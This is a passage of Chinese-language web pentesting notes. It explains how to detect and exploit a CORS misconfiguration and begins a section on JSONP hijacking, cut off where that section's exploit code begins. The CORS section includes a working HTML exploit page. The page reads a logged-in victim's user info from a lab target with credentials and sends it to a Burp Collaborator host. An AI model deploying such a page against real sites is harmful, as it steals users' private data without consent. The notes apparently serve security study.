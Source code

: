 2. CORS的使用：

   > 1. 漏洞成因：CORS配置错误，允许任意源访问网站资源
   >
   > 2. 简单验证：在请求包中输入任意的origin字段，若返回包中的Access-Control-Allow-Origin与之对应，则说明存在漏洞
   >
   > 3. CORS漏洞的利用：
   >
   >    > 1. 明确目的：获取受害者信息（查看网站上的敏感信息）
   >    >
   >    > 2. 漏洞利用代码：
   >    >
   >    >    ~~~html
   >    >    <!DOCTYPE html>
   >    >    <html>
   >    >    <head>
   >    >    <title>CORS TEST</title>
   >    >    </head>
   >    >    <body>
   >    >    <div id='output'></div>
   >    >     
   >    >     <script src="http://www.w3school.com.cn/jquery/jquery-1.11.1.min.js">
   >    >    </script>
   >    >    <script type="text/javascript">
   >    >    var req = new XMLHttpRequest();
   >    >    req.onload = reqListener;
   >    >    req.open('get','http://127.0.0.1/dorabox/csrf/userinfo.php',true); 
   >    >    //req.setRequestHeader("Content-Type","application/x-www-form-urlencoded;");
   >    >    req.withCredentials = true;
   >    >    req.send();
   >    >    function reqListener()
   >    >     {
   >    >     $.ajax({
   >    >     type: 'get',
   >    >     // url参数为接收敏感信息的位置
   >    >     url: 'http://0deq9cdptr10o3b91bh6cmsuclic61.burpcollaborator.net/',
   >    >     data: JSON.stringify(req.responseText)
   >    >    });
   >    >     };
   >    >    </script>
   >    >    </body>
   >    >    </html
   >    >    ~~~
   >    >
   >    > 3. 用户在登陆状态点击恶意网站执行漏洞利用代码之后，在url中对应服务器的日志文件中可以看到中招用户的敏感信息

3. jsonp的使用

   > 1. 利用条件：
   >
   >    > 1. 观察数据类型，查看是否接收json数据
   >    >
   >    > 2. 判断GET请求参数中是否包含像`callback`、`cb`、`jsonp`字样的参数用来调用回调函数
   >    >
   >    >    > JSON格式会直接作为js允许，想要操作数据必须使用回调函数
   >    >
   >    > 3. 判断是否能进行回调函数的调用
   >    >
   >    > 4. 查看json数据是否有敏感信息
   >
   > 2. 漏洞利用代码：
   >
   >    ~~~html
   >    <!DOCTYPE html>
   >    <html lang="en">